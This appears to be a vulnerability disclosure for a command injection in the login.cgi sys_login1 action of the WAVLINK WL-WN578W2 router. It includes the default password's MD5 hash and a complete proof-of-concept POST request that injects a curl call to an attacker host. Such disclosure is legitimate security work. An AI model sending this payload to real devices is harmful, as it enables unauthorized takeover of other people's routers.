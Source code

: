 \# WAVLINK WL-WN578W2 M78W2\\\_V221110 Command Injection (sys\\\_login1 Action in login.cgi)



PS:







1\.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.



2\.  Authenticated access required, but `password` uses fixed MD5 (no dynamic change). Attackers only need the password’s MD5 (e.g., default password) to reuse the exploit.



\## Overview



A command injection vulnerability exists in the `sys\_login1` action of `login.cgi` (WAVLINK WL-WN578W2, firmware M78W2\\\_V221110). The `ipaddr` parameter in `sub\_401BA4` function (login.c) lacks sanitization and is directly concatenated into system commands. With `page=sys\_login1` in POST requests to `/cgi-bin/login.cgi`, attackers with the password’s MD5 can inject arbitrary commands to control the device.







!\[Vulnerability Flow](./imgs/1.png)



\## Details







\*   \*\*Vendor\*\*: WAVLINK



\*   \*\*Product\*\*: WAVLINK WL-WN578W2



\*   \*\*Firmware\*\*: M78W2\\\_V221110



\*   \*\*Affected Endpoint\*\*: `/cgi-bin/login.cgi` (POST, `page=sys\_login1`)



\*   \*\*Vulnerable Code\*\*: `ftext` (request routing) \& `sub\_401BA4` (core logic) in login.c



\*   \*\*Vulnerability Type\*\*: Command Injection



\*   \*\*CVE ID\*\*: Pending



\*   \*\*Impact\*\*: Execute commands, read sensitive files, control the device; reusable via fixed password MD5.



\*   \*\*Reported by\*\*: n0ps1ed (n0ps1edzz@gmail.com)



\### Description







\*   \*\*Request Routing\*\*: `ftext` function parses `page=sys\_login1` and calls `sub\_401BA4`.



\*   \*\*Password Verification\*\*: `sub\_401BA4` uses `echo -n '%s' | md5sum` to verify the input `password` (fixed MD5 logic).



\*   \*\*Command Injection\*\*: `ipaddr` parameter is unsanitized and directly used in system commands. Attackers use delimiters (e.g., `;`) to inject malicious commands.







!\[MD5 Verification Logic](./imgs/2.png)







!\[Vulnerable Command Flow](./imgs/3.png)



\## Proof of Concept (PoC)



\### PoC: Inject `curl` Command



Requires the device password’s fixed MD5 (e.g., `e10adc3949ba59abbe56e057f20f883e` = default `123456`).



\#### Full PoC Request







```

POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 145
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive



page=sys_login1&ipaddr=%3A%3Affff%3A192.168.10.154;curl http://192.168.10.154:1234#&key=M55373357&password=e10adc3949ba59abbe56e057f20f883e

```



\#### PoC Results







1\.  \*\*Fixed MD5 Generation\*\*: Use `echo -n '123456' | md5sum` to get the password hash (matches PoC)







!\[MD5 Generation](./imgs/4.png)







1\.  \*\*Successful Injection\*\*: Device executes `curl`, attacker’s server records the request







!\[Injection Success](./imgs/5.png)



